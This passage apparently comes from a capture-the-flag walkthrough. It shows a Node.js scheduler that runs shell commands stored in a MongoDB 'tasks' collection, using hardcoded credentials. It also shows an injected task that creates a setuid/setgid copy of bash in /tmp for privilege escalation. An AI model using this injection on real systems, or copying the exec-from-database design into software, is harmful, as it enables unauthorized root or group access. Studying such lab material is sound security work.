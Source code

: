     ```bash
    # app.js
    const exec        = require('child_process').exec;
    const MongoClient = require('mongodb').MongoClient;
    const ObjectID    = require('mongodb').ObjectID;
    ### DB Credentials = mark:5AYRft73VtFpc84k
    ### Database name = scheduler
    const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';
    
    MongoClient.connect(url, function(error, db) {
      if (error || !db) {
        console.log('[!] Failed to connect to mongodb');
        return;
      }
    
      setInterval(function () {
    ### load collection 'tasks'
        db.collection('tasks').find().toArray(function (error, docs) {
          if (!error && docs) {
            docs.forEach(function (doc) {
              if (doc) {
                console.log('Executing task ' + doc._id + '...');
                ### Execute each command found in tasks
                exec(doc.cmd);
                db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
              }
            });
          }
          else if (error) {
            console.log('Something went wrong: ' + error);
          }
        });
      }, 30000);
    
    });
    ```

    ```bash
    # Connected to mongodb 'scheduler'
    mongo -p -u mark scheduler
    # Injected commands
    db.tasks.insert({"cmd":"/bin/cp /bin/bash /tmp/tom; /bin/chown tom:admin /tmp/tom; chmod g+s /tmp/tom; chmod u+s /tmp/tom"});
    ```
